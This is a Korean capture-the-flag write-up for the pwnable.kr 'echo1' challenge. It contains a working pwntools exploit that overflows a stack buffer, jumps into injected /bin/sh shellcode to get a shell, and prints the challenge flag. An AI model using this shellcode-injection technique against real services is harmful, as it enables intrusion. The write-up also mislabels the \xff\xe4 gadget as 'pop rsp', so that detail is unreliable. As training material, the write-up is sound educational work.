







# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec echo1
[*] '/root/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

서버에 접속하면 24글자를 name으로 입력받는다.



echo type을 선택하라 하고 BOF, FSB, UAF가 있다.

```sh
nc64.exe pwnable.kr 9010
hey, what's your name? : a

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
```

BOF echo에서는 128글자까지 받을 수 있다.



그리고 41글자부터 return 주소를 오버라이트 할 수 있다.



FSB echo와 UAF echo는 not supported라고 한다.



NX bit가 disabled되어 있으므로, shell code를 사용하여 shell을 얻으면 될 것이다.

우선 BOF echo에서 return할 때, POP EIP되면서 RSP + 4가 될테니, BOF echo에서 입력하는 Payload는 다음과 같다.

    Dummy (A * 40byte) + Return Address (8byte) + Shell code (? byte)

문제는 ASLR이 걸려있을 것이니, Shell code의 주소를 알기 어렵다. No PIE인 점을 이용하여 name입력 값이 id에 저장된다는 점을 이용하자.



id는 dd(double word = 4byte)의 크기를 가지고 있기 때문에, pop rsp를 이용하여 BOF echo에서 입력한 shell code의 주소로 점프시키자.



pop rsp는 \xff\xe4이다.

> [Disassemble]](https://defuse.ca/online-x86-assembler.htm#disassembly)

shell code는 shell storm을 이용하자.

> [shell storm - 27byte /bin/sh](http://shell-storm.org/shellcode/files/shellcode-806.php)

FLAG를 획득하자.

```py
from pwn import *

payload = b'A' * 40
payload += p64(0x6020a0)
payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

r = remote('pwnable.kr', 9010)
r.recvuntil('hey, what\'s your name? : ')
r.sendline("\xff\xe4")
r.recvuntil('> ')
r.sendline('1')
r.recvline()
r.sendline(payload)
r.recvline()
r.recvline()
r.sendline('/bin/sh -c "cat flag"')
print(r.recvline().decode())
```

# **FLAG**

**H4d_som3_fun_w1th_ech0_ov3rfl0w**